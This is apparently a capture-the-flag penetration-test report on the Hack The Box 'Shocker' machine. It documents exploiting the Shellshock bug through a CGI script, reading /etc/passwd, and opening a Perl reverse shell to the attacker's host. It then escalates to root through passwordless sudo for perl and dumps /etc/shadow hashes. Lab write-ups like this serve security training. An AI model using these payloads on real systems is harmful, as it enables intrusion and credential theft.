




# Hack The Box: Shocker Report

# Methodologies

I utilized a widely adopted approach to performing penetration testing that is effective in testing how well the Shocker machine is secured.
Below is a breakout of how I was able to identify and exploit the variety of systems and includes all individual vulnerabilities found.

## Information Gathering

The information gathering portion of a penetration test focuses on identifying the scope of the penetration test.
During this penetration test, I was tasked with exploiting the Shocker machine.

The specific IP address was:

- 10.10.10.56

## Penetration

The penetration testing portions of the assessment focus heavily on gaining access to a variety of systems.
During this penetration test, I was able to successfully gain access to the Shocker machine.

### System IP: 10.10.10.56

#### Service Enumeration

The service enumeration portion of a penetration test focuses on gathering information about what services are alive on a system or systems.
This is valuable for an attacker as it provides detailed information on potential attack vectors into a system.
Understanding what applications are running on the system gives an attacker needed information before performing the actual penetration test.
In some cases, some ports may not be listed.

Server IP Address | Ports Open
------------------|----------------------------------------
10.10.10.56      | **TCP**: 80,2222

**Nmap Scan Results:**

Command to run:

```bash
nmap -vvv -Pn -p 80,2222 -sC -sV -oN /HTB-boxes/shocker/recon/nmap_all_tcp.md 10.10.10.56
```

Output:

```txt
...

80/tcp   open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS

...


```

\newpage

#### Initial Access

**Vulnerability Exploited:** Shellshock RCE

**Vulnerability Explanation:**

Shellshock is effectively a Remote Command
Execution vulnerability in BASH.

The vulnerability relies in the fact that BASH
incorrectly executes trailing commands when
it imports a function definition stored into an
environment variable.

Reference: *https://owasp.org/www-pdf-archive/Shellshock_-_Tudor_Enache.pdf*


**Vulnerability Fix:**

Make sure you install and updated version of bash on your system.

Reference: *https://www.minttm.com/takeover-shellshocker-net*

Download the latest version of bash found at *http://www.gnu.org/software/bash/*

**Severity:** Critical

**Exploit Code:**

Given these existence of the *http://10.10.10.56/cgi-bin/* directory, and *user.sh* in the respective directory,  we are able to guess that this machine is vulnerable to shellshock. Thus we run the *shocker.py* script against the box.

Reference: *https://github.com/nccgroup/shocker/blob/master/shocker.py*

No changes were made to the script's code.

Here we configure our use of the *shocker.py* script. We attempt to execute a  command on the target machine that will output the contents of the */etc/passwd* file.

```bash
python2 shocker.py -H 10.10.10.56 --command "/bin/cat /etc/passwd" -c /cgi-bin/user.sh --verbose
```

We see that our command executed successfully given the output:

```bash
[+] Single target '/cgi-bin/user.sh' being used
[+] Checking connectivity with target...
[I] Checking to see if 10.10.10.56 resolves...
[I] Resolved ok
[I] Checking to see if 10.10.10.56 is reachable on port 80...
[I] 10.10.10.56 seems reachable...
[+] Target was reachable
[+] Looking for vulnerabilities on 10.10.10.56:80
[I] Starting thread 1
[+] Finished host scan
[+] 1 potential target found, attempting exploits
[+] Trying exploit for http://10.10.10.56:80/cgi-bin/user.sh
[I] Flag set to: URX7FDHT9JYCI17YIPWI
[I] Header is: Content-type
[I] Attack string is: () { :;}; echo;  echo URX7FDHT9JYCI17YIPWI; /bin/cat /etc/passwd
[!] http://10.10.10.56:80/cgi-bin/user.sh looks vulnerable
[!] Response returned was:
  root:x:0:0:root:/root:/bin/bash
  daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
  bin:x:2:2:bin:/bin:/usr/sbin/nologin
  sys:x:3:3:sys:/dev:/usr/sbin/nologin
  sync:x:4:65534:sync:/bin:/bin/sync
  games:x:5:60:games:/usr/games:/usr/sbin/nologin
  man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
  lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
  mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
  news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
  uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
  proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
  www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
  backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
  list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
  irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
  gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
  nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
  systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
  systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
  systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
  systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
  syslog:x:104:108::/home/syslog:/bin/false
  _apt:x:105:65534::/nonexistent:/bin/false
  lxd:x:106:65534::/var/lib/lxd/:/bin/false
  messagebus:x:107:111::/var/run/dbus:/bin/false
  uuidd:x:108:112::/run/uuidd:/bin/false
  dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
  sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
  shelly:x:1000:1000:shelly,,,:/home/shelly:/bin/bash
```

We are prompted to choose whether or not to further exploit the url we previously entered. Follow these steps to continue:

1. select 1 
2. press enter.

Now we start our netcat listener on our attacker machine (in a separate terminal):

```bash
nc -lvnp 4321
```

Now we can return to our shellshock prompt and enter a reverse shell payload targeting the use of perl:

```bash
/usr/bin/perl -e 'use Socket;$i=\"10.10.14.12\";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"sh -i\");};'
```



Checking out listener, we recive a low-privileged shell:



**Local.txt Proof Screenshot**



**Local.txt Contents**

```txt
2ec24e11320026d1e70ff3e16695b233
```

\newpage

#### Privilege Escalation

**Vulnerability Exploited:** Weak file permissions.

**Vulnerability Explanation:**

The compromised user *shelly* is able to execute the file */usr/bin/perl* with sudo permissions AND without requiring a password.

Output from *linenum.sh*:

```bash
[+] We can sudo without supplying a password!
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

Reference: *https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh*

**Vulnerability Fix:**

Change permissions of */usr/bin/perl* to atleast require a password to be entered for any user to execute the file with sudo privileges.

**Severity:** Critical

**Exploit Code:**

```bash
sudo perl -e 'exec "/bin/bash";'
```

Result:


**Proof Screenshot Here:**



**Proof.txt Contents:**

```txt
52c2715605d70c7619030560dc1ca467
```


## Maintaining Access

Maintaining access to a system is important to us as attackers, ensuring that we can get back into a system after it has been exploited is invaluable.
The maintaining access phase of the penetration test focuses on ensuring that once the focused attack has occurred (i.e. a buffer overflow), we have administrative access over the system again.
Many exploits may only be exploitable once and we may never be able to get back into a system after we have already performed the exploit.

## House Cleaning

The house cleaning portions of the assessment ensures that remnants of the penetration test are removed.
Often fragments of tools or user accounts are left on an organization's computer which can cause security issues down the road.
Ensuring that we are meticulous and no remnants of our penetration test are left over is important.

After collecting trophies from the Shocker machine was completed, I removed all user accounts, passwords, and malicious codes used during the penetration test.
Hack the box should not have to remove any user accounts or services from the system.

# Appendix - Additional Items

## Appendix - Proof and Local Contents:

IP (Hostname) | Local.txt Contents | Proof.txt Contents
--------------|--------------------|-------------------
10.10.10.56   | 2ec24e11320026d1e70ff3e16695b233  | 52c2715605d70c7619030560dc1ca467


## Appendix - /etc/passwd contents

```txt
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
shelly:x:1000:1000:shelly,,,:/home/shelly:/bin/bash
```

## Appendix - /etc/shadow contents

```txt
root:$6$BVgS5ne0$Q6rV3guK7QQUy7uRMwbQ3vv2Y5I9yQUhIzvrIhuiDso/o5UfDxZw7MMq8atR3UdJjhpkFVxVD0cVtjXQdPUAH.:17431:0:99999:7:::
daemon:*:17001:0:99999:7:::
bin:*:17001:0:99999:7:::
sys:*:17001:0:99999:7:::
sync:*:17001:0:99999:7:::
games:*:17001:0:99999:7:::
man:*:17001:0:99999:7:::
lp:*:17001:0:99999:7:::
mail:*:17001:0:99999:7:::
news:*:17001:0:99999:7:::
uucp:*:17001:0:99999:7:::
proxy:*:17001:0:99999:7:::
www-data:*:17001:0:99999:7:::
backup:*:17001:0:99999:7:::
list:*:17001:0:99999:7:::
irc:*:17001:0:99999:7:::
gnats:*:17001:0:99999:7:::
nobody:*:17001:0:99999:7:::
systemd-timesync:*:17001:0:99999:7:::
systemd-network:*:17001:0:99999:7:::
systemd-resolve:*:17001:0:99999:7:::
systemd-bus-proxy:*:17001:0:99999:7:::
syslog:*:17001:0:99999:7:::
_apt:*:17001:0:99999:7:::
lxd:*:17431:0:99999:7:::
messagebus:*:17431:0:99999:7:::
uuidd:*:17431:0:99999:7:::
dnsmasq:*:17431:0:99999:7:::
sshd:*:17431:0:99999:7:::
shelly:$6$aYLAoDIC$CJ8f8WSCT6GYmbx7x8z5RfrbTG5mpDkkJkLW097hoiEw3tqei2cE7EcUTYdJTVMSa3PALZeBHjhiFR8Ba5jzf0:17431:0:99999:7:::
```